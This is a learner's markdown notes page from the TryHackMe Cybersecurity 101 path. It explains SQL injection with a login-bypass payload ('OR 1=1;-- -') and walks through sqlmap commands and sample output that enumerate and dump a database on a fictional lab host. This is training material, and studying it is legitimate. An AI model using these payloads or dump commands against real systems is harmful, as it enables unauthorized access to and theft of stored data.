

# Cybersecurity 101 
---
# Offensive Security Tooling: SQLMap - Basics

SQL injection is a prevalent vulnerability and has long been a hot topic in cyber security. To understand this vulnerability, we must first learn what a database is and how websites interact with a database.

A **database** is a collection of data that can be stored, modified, and retrieved. It stores data from several applications in a structured format, making storage, modification, and retrieval easy and efficient.

You interact with several websites daily. Many of these websites have web pages that require **user input**. For instance, a login page may ask you to enter your credentials. Once you enter them, the website checks if they are correct and logs you in. But how does the website store and verify the credentials of so many users? This is done with the help of a **database**.

These websites use databases to **store user information** and **retrieve it** when needed. For example:

- When you log in, the website queries the database to check your credentials.
- On a bookshop website, when you search for a book, the website queries the database to retrieve the matching results and displays them.

Now that we understand websites retrieve, store, and modify data using a database, how does this interaction happen?

Databases are managed by **Database Management Systems (DBMS)** such as:
- MySQL
- PostgreSQL
- SQLite
- Microsoft SQL Server

These systems understand a language called **Structured Query Language (SQL)**. Websites and applications interact with databases using **SQL queries** to perform operations like storing, retrieving, or updating data.

 <br>

## SQL Injection Vulnerability


In the previous task, we studied how websites and applications interact with databases to store, modify, and retrieve their data in a structured manner. In this task, we will see how the interaction between an application and a database happens through SQL queries and how attackers can leverage these SQL queries to perform SQL injection attacks.

**Note**: Before we proceed, please ensure that you try the manual or automated SQL injection methods only after the permission of the application owner.

Let’s take an example of a login page that asks you to enter your username and password to log in. Let’s provide it with the following data:

- **Username**: John
- **Password**: Un@detectable444

Once you enter your username and password, the website will receive it, make an SQL query with your credentials, and send it to the database. 

```sql 
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```
This query will be executed in the database. As per this query, the database will check for a user named **John** and the password of **Un@detectable444**. If it finds such a user, it will return the user’s details to the application. Note that the above query will be successful only if the given user and pass both have a match together in the database as they are separated by the boolean “AND”.

Sometimes, when input is improperly sanitized, meaning that user input is not validated, attackers can manipulate the input and write SQL queries that would get executed in the database and perform the attacker’s desired actions. SQL injection has a very harmful effect in this digital world as all organizations store their data, including their critical information, inside the databases, and a successful SQL injection attack can compromise their critical data.

Let’s assume the website login page we discussed above lacks input validation and sanitization. This means that it is vulnerable to SQL injection. The attacker does not know the password of the user John. They will type the following input in the given fields:

- **Username**: John
- **Password**: abc' OR 1=1;-- -


This time, the attacker typed a random string `abc` and an injected string `' OR 1=1;-- -`. The SQL query that the website would send to the database will now become the following:

```sql 
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```
This statement looks similar to the previous SQL query but now adds another condition using the logical operator `OR`.

In this query, the database will:

1. Check if there is a user named `John`.
2. Then, check if the password is `abc` (which is likely incorrect, as the attacker entered a random password).

Normally, the query should fail here because it uses the `AND` operator, meaning **both** the username and password must match. However, the attacker added another condition: `OR 1=1`.

- `1=1` is **always true**, so even though the password check fails, the condition `OR 1=1` makes the entire query evaluate to true.
- As a result, the query succeeds, and the attacker is authenticated without knowing the correct password.

The `-- -` at the end of the input is a SQL comment operator. It tells the database to ignore the rest of the query that follows, ensuring no syntax errors or further logic checks.

**Why the Single Quote `'` Matters**

An important detail is the use of the **single quote (`'`)** after the fake password (`abc`). 

Without this quote, the input like:

- `abc OR 1=1;-- -`: would be treated as a single string, and the query would interpret it all as the password — **which is not the attacker’s intent**.
- `'abc' OR 1=1;-- -`: the `abc` is properly enclosed, and the rest (`OR 1=1`) becomes a valid SQL expression. This allows the attacker to inject logic into the query and bypass authentication. This technique is a classic example of **SQL injection**, where improper input sanitization allows attackers to manipulate backend SQL queries to their advantage. 

## Automated SQL Injection Tool
Carrying out an SQL injection attack involves discovering the SQL injection vulnerability inside the application and manipulating the database. However, manually doing all this can take time and effort.

> **Note:** The commands explained in this task will **not** work inside the AttackBox. The URLs and scenarios are for explanation only. In the next task, you will use a vulnerable URL to **practically** carry out this attack.

#### SQLMap

**SQLMap** is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications. It greatly simplifies the process of identifying and taking advantage of these vulnerabilities.

- SQLMap is built into some Linux distributions by default.
- If it's not installed, you can easily install it manually.


**Usage**

Since SQLMap is a **command-line tool**, you’ll need to open your terminal in a Linux OS to use it. To list all available flags and options:` sqlmap --help`

```bash
user@ubuntu:~$ sqlmap --wizard
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]

[*] starting at 08:42:50

[08:42:50] [INFO] starting wizard interface
Please enter full target URL (-u): 
```

The `--dbs` flag helps you to extract all the database names. Once you get to know the database names, you can extract information about the tables of that database by using `-D database_name --tables`. After obtaining the tables, if you want to enumerate the records in those tables, you can use `-D database_name -T table_name --dump`. The different flags in the SQLMap tool let you extract detailed information from the databases. Now, let's take a practical scenario and use all the above flags to exploit a web application vulnerable to SQL injection.

The first step is to look for a possible vulnerable URL or request. You may often come across some URLs that use GET parameters to retrieve the data. For example, a URL like `http://sqlmaptesting.thm/search?cat=1` uses a parameter `cat` that takes the value `1`. If you see any web application using GET parameters in the URLs to retrieve data, you can test that URL with the `-u` flag in the SQLMap tool. This is considered to be HTTP GET-based testing. This approach is followed when the application uses GET parameters in the URL to retrieve data from the searches.

We will use a supposedly vulnerable website URL: `http://sqlmaptesting.thm` for the demonstration. Suppose that this website has a search option, and when you click on this search option and search for something, the URL becomes `http://sqlmaptesting.thm/search/cat=1`, which uses the GET parameter `cat=1` in the URL to extract information from the database. As we know, URLs that have GET parameters can be vulnerable to SQL injection; let us scan this URL to identify if it has any SQL injection vulnerability.

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

The results in the above terminal show us that different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind SQL injection, the SQL query is modified, and a boolean expression (that is always true, e.g., `1=1`) is included with the query to extract the information. Whereas in the error-based SQL injection, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other SQL injection techniques can also be employed to exploit a database.

The results from the command we executed for our target `http://sqlmaptesting.thm/search/cat=1` tell us that different types of SQL injection are possible on this URL. Let's use SQLMap's flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag `--dbs`. Let's try this flag out with our vulnerable URL:

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

After running the above command, we got two database names. Select the `users` database and fetch the tables inside of it. We will define the database after the flag `-D` and use the `--tables` flag at the end to extract all the table names.

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Now that we have all the available table names of the database, let's dump the records present in the `thomas` table. To do so, we will define the database with the `-D` flag, the table with the `-T` flag, and for extracting the records of the table, we will use the `--dump` flag.

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

However, unlike the URL used for testing above, you can also use POST-based testing, where the application sends data in the request's body instead of the URL. Examples of this could be login forms, registration forms, etc. To follow this approach, you must intercept a POST request on the login or registration page and save it as a text file. You can use the following command to input that request saved in the text file to the SQLMap tool:

```bash
user@ubuntu:~$ sqlmap -r intercepted_request.txt
```

**Note**: Learning how to intercept and capture POST requests is out-of-scope for this notes.

---
> **Note:** These notes document hands-on learning from the TryHackMe *Cybersecurity 101* path. The exercises cover fundamental cybersecurity topics, including Linux basics, networking concepts, and web technologies. This document is intended for personal learning, revision, and ethical skill development. All screenshots, commands, and actions are for educational purposes only.  
> — Compiled by moh4med404 | Curious Mind | Cybersecurity Enthusiast
